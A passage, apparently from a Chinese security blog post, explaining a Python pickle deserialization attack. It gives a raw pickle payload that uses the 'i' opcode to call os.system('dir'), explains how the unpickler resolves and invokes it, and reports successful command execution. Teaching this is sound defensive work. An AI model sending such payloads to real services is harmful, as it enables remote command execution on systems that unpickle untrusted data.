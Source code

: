 ```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(Vdir\nios\nsystem\n0c__main__\nB\n)b.'
```

[![](assets/1705886719-97a3e90f1ef03d1c27b8e451a4ac72d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211347-946d9fea-b6cc-1.png)

> 简单来说，通过 i 指令将 os.system 推入 inst，进而使得 find\_class(os,system) 找到 kclass 为 os.system()，然后再通过 pop 触发 pop\_mark() 获取前序栈的 dir 内容，进入实例化类后变成了 system(dir) 触发了命令执行

[![](assets/1705886719-df39c1858cff8896b941b37c87b17f7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211353-981907d8-b6cc-1.png)

命令执行成功

[![](assets/1705886719-b17f2b2d15dd373cd337f9269693ac9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211357-9a6034c6-b6cc-1.png)
